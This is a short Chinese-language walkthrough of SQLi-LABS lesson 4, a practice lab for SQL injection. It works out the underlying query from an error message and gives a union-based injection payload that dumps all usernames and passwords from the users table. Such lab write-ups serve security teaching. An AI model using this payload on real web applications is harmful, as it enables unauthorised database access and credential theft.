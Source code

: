 ## Less-4 基于错误的双引号字符串

+ 这里提示我们要使用**"**双引号。使用双引号以后就出现了错误。

![image-20210923195939937](../../images/SQLi-LABS/image-20210923195939937.png)

+ 根据错误信息我们可以推断出该SQL语句为：

```sql
select column1, column2, column3 from where id = ("$id") limit 0, 1;  
```

+ 进过尝试以后我们发现，可以进行注入。现在我们要把数据都用户名和密码都查出来：

```sql
?id=0") union select 1,(select group_concat(username) from users),(select group_concat(password) from users) --+
```
